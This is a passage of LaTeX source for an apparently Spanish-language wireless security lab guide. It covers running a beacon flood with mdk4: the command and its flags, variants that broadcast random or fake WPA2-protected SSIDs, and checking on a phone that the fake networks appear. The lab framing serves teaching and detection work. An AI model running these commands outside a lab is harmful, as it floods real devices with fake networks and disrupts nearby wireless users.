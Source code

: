 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Preparación}
\texttt{panda0} debe estar en modo monitor (Paso 4). No es estrictamente
necesario fijar canal si vamos a dejar que \texttt{mdk4} brinque entre
ellos, pero para que el ataque sea reproducible y detectable lo
emitiremos en el canal del router de laboratorio.

\subsection{Lanzar el beacon flood}

\begin{lstlisting}
sudo mdk4 panda0 b -n ``FakeNet'' -c 6
\end{lstlisting}

\textbf{Flags:}

\begin{itemize}
  \item \texttt{panda0} - interfaz en modo monitor.
  \item \texttt{b} - modo ``beacon flood'' de mdk4.
  \item \texttt{-n ``FakeNet''} - prefijo de los SSIDs falsos. Se generan
    \texttt{FakeNet}, \texttt{FakeNet1}, \texttt{FakeNet2}, etc.
  \item \texttt{-c 6} - canal donde emitir.
\end{itemize}

\textbf{Variantes útiles:}

\begin{lstlisting}
# Flood con SSIDs completamente aleatorios
sudo mdk4 panda0 b -c 6

# Flood con SSIDs leídos de un archivo (uno por línea)
sudo mdk4 panda0 b -f lista-ssids.txt -c 6

# Flood emitiendo redes que aparentan estar protegidas con WPA2
sudo mdk4 panda0 b -w -c 6
\end{lstlisting}

Deja corriendo unos 5 a 10 segundos y \texttt{Ctrl+C} para parar. Más
tiempo no es necesario para validar el ataque y satura el aire
innecesariamente.

\subsection{Verificar que el ataque funciona}
Toma un celular o laptop y abre la lista de redes WiFi. Deberían aparecer
decenas o cientos de redes con nombres tipo \texttt{FakeNet},
\texttt{FakeNet1}, \texttt{FakeNet2}, etc. Esto confirma que los beacons
están siendo recibidos por dispositivos reales.
\end{document}
